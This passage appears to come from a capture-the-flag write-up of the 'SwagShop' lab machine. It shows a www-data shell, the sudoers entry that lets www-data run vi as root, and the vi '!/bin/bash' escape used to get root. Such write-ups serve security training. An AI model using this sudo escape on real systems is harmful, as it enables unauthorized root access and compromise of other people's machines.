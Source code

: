 ```bash
bash: cannot set terminal process group (1380): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$ 
```
We obtained a shell as the `www-data` user.

## User shell
Once we got `www-data` shell on the machine, we can read `/home/haris/user.txt`, so we suppose this is the goal of the foothold.

## Privilege escalation
Now, we can enumerate the permissions of `www-data` on the machine:
```bash
www-data@swagshop:/var/www/html$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/var/www/html$ cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

www-data ALL=NOPASSWD:/usr/bin/vi /var/www/html/*
```
With this information, we can turn root executing `sudo vi /war/www/html/test` (or any other file in that folder) and executing `!/bin/bash`:
```bash
www-data@swagshop:/var/www/html$ sudo /usr/bin/vi /var/www/html/test

~                                                                               
~                                                                               
~                                                                               
```